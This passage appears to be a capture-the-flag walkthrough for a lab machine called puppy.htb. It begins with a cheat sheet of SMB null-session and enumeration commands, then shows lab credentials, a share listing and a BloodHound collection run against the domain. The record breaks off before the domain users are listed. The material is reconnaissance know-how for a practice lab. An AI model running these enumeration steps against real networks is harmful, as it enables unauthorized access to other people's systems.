| `smbclient -N -L //<FQDN/IP>`                     | Null session authentication on SMB.                       |
| ------------------------------------------------- | --------------------------------------------------------- |
| `smbclient //<FQDN/IP>/<share>`                   | Connect to a specific SMB share.                          |
| `rpcclient -U "" <FQDN/IP>`                       | Interaction with the target using RPC.                    |
| `samrdump.py <FQDN/IP>`                           | Username enumeration using Impacket scripts.              |
| `smbmap -H <FQDN/IP>`                             | Enumerating SMB shares.                                   |
| `crackmapexec smb <FQDN/IP> --shares -u '' -p ''` | Enumerating SMB shares using null session authentication. |
| `enum4linux-ng.py <FQDN/IP> -A`                   | SMB enumeration using enum4linux.                         |

## SMB shares enum
  
levi.james / KingofAkron2025!
```bash
smbclient -U 'levi.james' -L puppy.htb
```

```bash
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
DEV             Disk      DEV-SHARE for PUPPY-DEVS
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
SYSVOL          Disk      Logon server share
```

lets go see the dev share
```bash
sudo smbclient //puppy.htb/DEV -U 'levi.james'
```
but we get this error when running commands, `NT_STATUS_ACCESS_DENIED listing \*`
->meaning our user does not have enough permissions on this share,

now add `dc.puppy.htb` to etc/hosts

lets run bloodhound now
```bash
sudo bloodhound-python -d puppy.htb -u levi.james -p KingofAkron2025! -ns 10.10.11.70 -c all
```

lets see the domain users